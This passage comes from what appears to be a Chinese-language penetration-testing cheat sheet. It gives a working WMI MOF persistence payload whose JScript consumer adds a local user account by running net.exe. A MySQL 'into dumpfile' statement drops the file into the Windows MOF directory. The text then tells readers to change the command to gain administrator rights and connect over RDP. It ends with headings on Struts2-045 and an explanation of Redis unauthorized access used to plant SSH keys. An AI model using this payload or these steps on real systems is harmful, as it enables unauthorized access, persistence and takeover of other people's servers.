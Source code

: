 ```
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user waitalone waitalone.cn /add\")";
};

instance of __FilterToConsumerBinding
{
Consumer   = $Consumer;
Filter = $EventFilter;
};
```

其中的第18行的命令，上传前请自己更改。

2、执行load_file及into dumpfile把文件导出到正确的位置即可。

```
select load file('c:/wmpub/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mov'
```

执行成功后，即可添加一个普通用户，然后你可以更改命令，再上传导出执行把用户提升到管理员权限，然后3389连接之就ok了。

# <span id="head67"> 特殊漏洞</span>

## <span id="head68"> Struts2-045</span>

## <span id="head69"> Redis未授权访问</span>

### <span id="head70"> 产生原因</span>

Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器

### <span id="head71"> 利用条件和方法</span>
